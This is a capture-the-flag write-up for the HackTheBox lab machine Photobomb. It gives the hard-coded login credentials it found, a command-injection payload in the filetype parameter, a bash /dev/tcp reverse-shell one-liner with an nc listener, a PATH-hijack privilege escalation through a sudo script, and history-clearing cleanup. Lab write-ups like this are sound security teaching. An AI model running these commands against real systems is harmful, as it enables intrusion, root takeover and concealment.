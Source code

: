 # HTB – Photobomb (Linux, Easy)

## Table of Contents
- General Info
- Objectives
- Enumeration
- Exploitation
- Initial Shell
- Privilege Escalation
- Post-Exploitation Proof
- Cleanup
- Key Takeaways
- Conclusion

---

## General Info
- **Machine name:** Photobomb  
- **Platform:** HackTheBox  
- **OS:** Linux (Ubuntu)  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: user + root)

---

## Objectives
- Identify entry points through enumeration  
- Exploit vulnerable web functionality to gain a foothold  
- Escalate privileges to root via misconfigured sudo script  

---

## Enumeration

### Nmap Scan
Command: nmap -sC -sV -oA nmap/photobomb 10.10.11.182  
Result:  
- 22/tcp – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)  
- 80/tcp – nginx 1.18.0 (Ubuntu)  

### Virtual Host
The web server expects hostname photobomb.htb.  
Added entry in /etc/hosts:  
10.10.11.182    photobomb.htb  

*Figure 1 – Nmap scan results*  
![Nmap scan](01_nmap.png)

*Figure 2 – /etc/hosts modification*
![Hosts file](02_hosts.png)

---

## Exploitation

### Discovered Credentials
Viewing page source (view-source:http://photobomb.htb) revealed photobomb.js.  
Inside the code, static credentials were present:  
- Username: pH0t0  
- Password: b0Mb!  
Login URL: http://photobomb.htb/printer  

*Figure 3 – Credentials exposed in photobomb.js*
![JS credentials](04_js_creds.png)

### Command Injection
POST request to /printer vulnerable to command injection in parameter filetype.  
Example payload: filetype=jpg;id  
Response confirmed execution of system command id.  

*Figure 4 – Burp Suite request showing command injection*
![Command injection in Burp](05_command_injection.png)

### Reverse Shell
Payload: filetype=jpg;bash -i >& /dev/tcp/10.10.14.2/4444 0>&1  
Listener: nc -lvnp 4444  
Result: reverse shell as user wizard.  

*Figure 5 – Reverse shell established as wizard*
![Reverse shell](05b_reverse_shell.png)

---

## Initial Shell
Stabilized with:  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  

*Figure 6 – Stabilized wizard shell*
![Stabilized shell](06_stabilized_shell.png)

---

## Privilege Escalation

### Sudo Permissions
Checked with: sudo -l  
Output: (root) SETENV: NOPASSWD: /opt/cleanup.sh  

*Figure 7 – Sudo permissions for cleanup.sh*
![Sudo permissions](07_sudo_permissions.png)

### Script Analysis
Content of /opt/cleanup.sh:  
#!/bin/bash  
. /opt/.bashrc  
cd /home/wizard/photobomb  
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then  
  /bin/cat log/photobomb.log > log/photobomb.log.old  
  /usr/bin/truncate -s0 log/photobomb.log  
fi  
find source_images -type f -name '*.jpg' -exec chown root:root {} \;  

Observation: find is called without absolute path → vulnerable to $PATH hijack.  

### Exploiting PATH Hijack
Steps:  
cd /dev/shm  
echo -e '#!/bin/bash\nbash' > find  
chmod +x find  
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh  
Result: root shell obtained.  

*Figure 8 – Root shell obtained via PATH hijack*
![Root shell via PATH hijack](08_root_shell.png)

---

## Post-Exploitation Proof
User flag: cat /home/wizard/user.txt  
Root flag: cat /root/root.txt  

*Figure 9 – User flag* 
![User flag](09_user_flag.png)
Output: `HTB{redacted}`
*Figure 10 – Root flag*
![Root flag](10_root_flag.png)
Output: `HTB{redacted}`
---

## Cleanup
rm -f /dev/shm/find  
history -c  
exit  

---

## Key Takeaways
- Hidden credentials in JS can expose login details.  
- Command injection in poorly validated parameters leads directly to RCE.  
- Always enumerate sudo -l for privilege escalation opportunities.  
- $PATH hijacking is a common and dangerous misconfiguration.  

---

## Conclusion
The Photobomb machine demonstrated a straightforward attack chain:  
- Enumeration revealed a vhost and JS credentials.  
- Exploitation via command injection granted shell access as wizard.  
- Privilege escalation through sudo misconfiguration led to root.  
- Both user and root flags were successfully retrieved.  

This lab emphasizes the importance of code review, secure credential handling, and proper path usage in privileged scripts.

